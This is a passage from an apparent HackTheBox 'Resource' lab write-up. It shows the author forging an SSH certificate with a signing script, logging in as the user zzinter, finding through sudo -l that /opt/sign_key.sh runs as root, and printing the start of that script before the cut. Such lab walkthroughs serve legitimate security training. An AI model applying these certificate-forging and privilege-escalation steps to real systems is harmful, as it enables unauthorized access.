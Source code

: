 run:

```
./sign_key_api.sh sed.pub zzinter zzinter_temp > zzinter.cert
```
got the access in zzinter@ssg machine using 

```
ssh zzinter@resource.htb -p 2222 -i sed -o CertificateFile=zzinter.cert 
```
![](https://github.com/architmadankar/HackTheBox/blob/d00b457220eb66504d318b44db75c7a93e925ca6/resource.htb/ss/Screenshot%20from%202024-08-07%2021-34-14.png)

checking permissions with sudo -l 
found we can execute  `/opt/sign_key.sh` file as root
 ![](https://github.com/architmadankar/HackTheBox/blob/d00b457220eb66504d318b44db75c7a93e925ca6/resource.htb/ss/Screenshot%20from%202024-08-07%2021-35-52.png)
 
 exploring the file 
 
 ```
 zzinter@ssg:~$ cat /opt/sign_key.sh
 ```
<details>
  <summary>sign_key.sh</summary>
  <br>
  
 ```bash
#!/bin/bash

usage () {
    echo "Usage: $0 <ca_file> <public_key_file> <username> <principal> <serial>"
    exit 1
}

if [ "$#" -ne 5 ]; then
    usage
fi

ca_file="$1"
public_key_file="$2"
username="$3"
 ```